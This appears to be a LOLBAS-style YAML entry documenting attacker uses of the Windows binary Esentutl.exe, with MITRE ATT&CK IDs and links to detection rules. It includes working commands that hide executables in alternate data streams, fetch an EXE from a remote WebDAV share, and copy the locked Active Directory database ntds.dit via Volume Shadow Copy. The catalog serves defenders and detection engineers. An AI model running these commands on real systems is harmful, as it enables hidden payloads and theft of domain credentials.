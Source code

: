 ```yaml
---
Name: Esentutl.exe
Description: Binary for working with Microsoft Joint Engine Technology (JET) database
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
    Usecase: Extract hidden file within alternate data streams
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
    Usecase: Use to copy files from one unc path to another
    Category: Download
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
    Description: Copies a (locked) file using Volume Shadow Copy
    Usecase: Copy/extract a locked file such as the AD Database
    Category: Copy
    Privileges: Admin
    MitreID: T1003.003
    OperatingSystem: Windows 10, Windows 11, Windows 2016 Server, Windows 2019 Server

Full_Path:
  - Path: C:\Windows\System32\esentutl.exe
  - Path: C:\Windows\SysWOW64\esentutl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/fb750721b25ec4573acc32a0822d047a8ecdf269/rules/windows/deprecated/win_susp_vssadmin_ntds_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/fb750721b25ec4573acc32a0822d047a8ecdf269/rules/windows/deprecated/win_susp_esentutl_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/bacb44ab972343358bae612e4625f8ba2e043573/rules/windows/process_creation/process_susp_esentutl_params.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_copying_sensitive_files_with_credential_data.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/esentutl_sam_copy.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_copy_ntds_sam_volshadowcp_cmdline.toml
Resources:
  - Link: https://twitter.com/egre55/status/985994639202283520
  - Link: https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
  - Link: https://twitter.com/bohops/status/1094810861095534592
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Mike Cary
    Handle: '@grayfold3d'
---
```

